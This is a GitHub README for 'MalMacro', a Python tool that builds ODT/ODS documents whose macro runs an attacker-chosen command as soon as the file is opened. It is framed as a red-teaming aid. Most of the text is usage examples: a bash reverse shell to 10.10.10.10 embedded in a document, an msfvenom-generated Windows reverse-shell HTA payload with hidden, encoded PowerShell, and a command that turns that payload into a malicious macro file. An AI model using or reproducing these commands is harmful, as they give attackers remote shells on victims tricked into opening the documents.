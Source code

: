 ## Malicious VBA Macro Generator
One general way to gain a foothold on a user's machine in a red-teaming engagement is the use of delivering a document that has a macro enabled that executes a command, which is triggered upon the user opening the document. This program generates one such document in ODT or ODS format (I may add Word, and Excel documents later).

### Update 2
MalMacro now supports ODS files.

### Update 1
MalMacro now supports commands of arbitrary length. This has particular application to obfuscated powershell commands, which can be extremely lengthy.

Examples:

```bash
$ python malmacro.py
Usage: malmacro.py <odt|ods> <code_to_execute>

$ malmacro.py odt "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"

# malmacro.odt generated
$ ls
LICENSE  macro.ods  macro.odt  malmacro.odt  malmacro.py  README.md

# Generate hta payload with msfvenom:
$  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7378 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set blx9LNamq = CreateObject("Wscript.Shell")
  Set dhC = CreateObject("Scripting.FileSystemObject")
  For each path in Split(blx9LNamq.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If dhC.FileExists(path + "\..\powershell.exe") Then
      blx9LNamq.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO<SNIP>AHIAdAAoACQAcwApADsA",0
      Exit For
    End If
  Next
  window.close()
</script>

# Take powershell code to make malicious macro document
$ ./malmacro.py ods 'powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAG<SNIP>'

```

## Disclaimer
This project is made for demonstrative and educational purposes only. I'm not liable for how you use it.
